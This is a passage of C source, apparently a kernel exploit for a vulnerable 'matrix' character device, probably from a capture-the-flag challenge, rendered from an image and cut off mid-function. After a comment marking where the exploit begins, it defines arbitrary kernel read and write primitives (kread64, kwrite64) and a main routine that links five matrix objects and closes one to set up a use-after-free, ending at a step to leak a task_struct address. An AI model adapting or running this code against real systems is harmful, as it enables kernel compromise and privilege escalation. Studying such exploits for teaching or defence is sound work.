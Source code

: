 ```c
    errx(1, "couldn't set matrix name");

  DBG_PRINT("[*] matrix name updated\n");
}

int matrix_new()
{
  int fd = open(DEVICE_NAME, O_RDWR);
  if (fd < 0)
    errx(1, "couldn't open device");

  DBG_PRINT("[*] new matrix fd: %d\n", fd);

  return fd;
}

// ----------------------------------------------------------------------------
// Exploit begins here

uint64_t kread64(uint64_t addr)
{
int i;
uint64_t val;
	
	// set fd3 data pt to addr
	kwrite64(fd3_addr + 8, addr);
	// read addr 
	for (i=0, val=0; i<8; i++)
		val |= (uint64_t)matrix_get_pos(fd3,i,0)<<(i<<3);
	return (val);
}

void kwrite64(uint64_t addr, uint64_t value)
{
int i;
	// set data ptr in fd2
	for (i=0; i<8; i++)
		matrix_set_pos(fd4,i,1, (uint8_t)(addr>>(i<<3))&0xff );
	// write value in addr
	for (i=0; i<8; i++)
		matrix_set_pos(fd1,i,0, (uint8_t)(value>>(i<<3))&0xff );
}

int main(int argc, char* argv[argc+1])
{
int i;

	fd1 =  matrix_new();
	fd2 =  matrix_new();
	fd3 =  matrix_new();
	fd4 =  matrix_new();
	fd5 =  matrix_new();

	// interleave 4 matrices
	matrix_do_link(fd1,fd2);
	matrix_do_link(fd2,fd3);
	matrix_do_link(fd3,fd4);
	matrix_do_link(fd4,fd5);

	close(fd2);
	matrix_set_info(fd5,8,8);

	// leak address of task_struct from fd2
```